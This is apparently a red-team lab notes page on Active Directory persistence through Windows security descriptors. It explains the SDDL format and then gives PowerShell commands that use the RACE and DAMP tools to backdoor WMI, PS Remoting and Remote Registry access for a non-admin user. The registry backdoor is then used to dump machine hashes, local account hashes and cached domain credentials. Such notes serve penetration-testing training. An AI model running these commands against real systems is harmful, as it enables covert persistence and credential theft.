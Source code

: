 # Security Descriptors

## Format

Security Descriptor Definition Language (SDDL) defines the format which is used to describe a security descriptor.

{% tabs %}
{% tab title="Syntax" %}
`ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid`
{% endtab %}
{% endtabs %}

Detailed docs about SDDL:

{% embed url="https://learn.microsoft.com/en-us/windows/win32/secauthz/ace-strings" %}

## Exploitation

Once we have administrator privileges it is possible to create a backdoor by modifying Security Descriptors like Owner, primary group, DACL and SACL of multiple remote access methods to allow access to non-admin users.

### WMI - GUI

It is possible to add the non-admin user to the ACE using the `Component Services` and `Computer Management`.

<figure><img src="../.gitbook/assets/image (1).png" alt=""><figcaption><p>Component Services</p></figcaption></figure>

<figure><img src="../.gitbook/assets/image (2).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

Apply to all namespaces

<figure><img src="../.gitbook/assets/image (4).png" alt=""><figcaption><p>Computer Management</p></figcaption></figure>

<pre class="language-powershell"><code class="lang-powershell"><strong># Check if worked
</strong><strong># Worked if didn't get access denied 
</strong><strong>gwmi -class win32_operatingsystem -ComputerName &#x3C;dc_machine>
</strong></code></pre>

### WMI - PowerShell

ACE for built-in administrators for WMI namespaces `A;CI;CCDCLCSWRPWPRCWD;;;SID`

in order to get access to WMI namespaces attacker needs to create a new ACE with the `SID` to non-admin user which he controls.

ACLs can be modified to allow non-admin users using the [RACE toolkit](https://github.com/samratashok/RACE):

{% hint style="danger" %}
Require Domain Admin privileges
{% endhint %}

<pre class="language-powershell"><code class="lang-powershell"># Loading the module
. C:\AD\Tools\RACE.ps1

# Remove namespace if you want in root namespace by default
<strong>Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
</strong>
# with explicit credentials
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose

# Remove
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose

</code></pre>

PS Remoting (not stable after August 2020 patches)

<pre class="language-powershell"><code class="lang-powershell"># View PSSession Config
Get-PSSessionConfiguration
<strong>
</strong><strong># Run in dcorp-dc
</strong>Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Verbose
#If you got an error like I/O operation has been aborted. Then the command succeeded.

# Remove
Set-RemotePSRemoting -SamAccountName student1 -ComputerName dcorp-dc -Remove
</code></pre>

### Remote Registry

**Reg backdoo**r using [DAMP](https://github.com/HarmJ0y/DAMP) Tool allows to non-admin user to retrieve the hash of the computer, the SAM and cached credentials in the computer:

<pre class="language-powershell"><code class="lang-powershell"># Modify ACE with admin privs. Run in DC
<strong>Add-RemoteRegBackdoor -ComputerName &#x3C;remotehost> -Trustee student1 -Verbose
</strong>
# retrieve machine hash
Get-RemoteMachineAccountHash -ComputerName &#x3C;remotehost> -Verbose

# retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName &#x3C;remotehost> -Verbose

# retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName &#x3C;remotehost> -Verbose
</code></pre>
